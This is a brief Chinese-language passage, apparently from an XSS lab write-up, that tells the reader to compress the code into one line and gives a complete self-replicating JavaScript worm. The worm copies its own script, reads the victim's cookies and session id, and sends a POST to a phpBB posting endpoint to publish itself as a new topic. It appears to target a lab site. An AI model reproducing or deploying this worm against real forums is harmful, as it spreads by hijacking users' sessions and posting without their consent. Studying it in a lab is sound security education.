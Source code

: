 ### 发自我复制帖

添加对应代码，并删除所有空行，换行。直至浓缩为一行。

```html
<script id=worm>scriptValue1=document.getElementById("worm");scriptValue2=scriptValue1.childNodes[0].nodeValue;var sc1="<script id=worm>";var sc12=sc1.concat(scriptValue2);scriptValue3=sc12.concat("<\/script>");scriptValue=escape(scriptValue3);var Ajax=null;Ajax=new XMLHttpRequest();Ajax.open("POST", "http://www.xsslabphpbb.com/posting.php",true);Ajax.setRequestHeader("Host","www.xsslabphpbb.com");Ajax.setRequestHeader("Keep-Alive", "300");Ajax.setRequestHeader("Connection", "keep-alive");Ajax.setRequestHeader("Cookie", document.cookie);Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");var c=document.cookie;var i=c.indexOf("sid=");var s1="subject=XSSSelfWorm&addbbcode18=%23444444&addbbcode20=0&helpbox=Font+color%3A+%5Bcolor%3Dred%5Dtext%5B%2Fcolor%5D++Tip%3A+you+can+also+use+color%3D%23FF0000&message=";var s3="&poll_title=&add_poll_option_text=&poll_length=&mode=newtopic&sid=";var s5="&f=1&post=Submit";var s12=s1.concat(scriptValue);var s34=s3.concat(c.slice(i - (-4), i - (-36)));var s1234=s12.concat(s34);var content=s1234.concat("&f=1&post=Submit");Ajax.send(content);</script>
```

![image-20220316224049466](XSSAttack/image-20220316224049466.png)


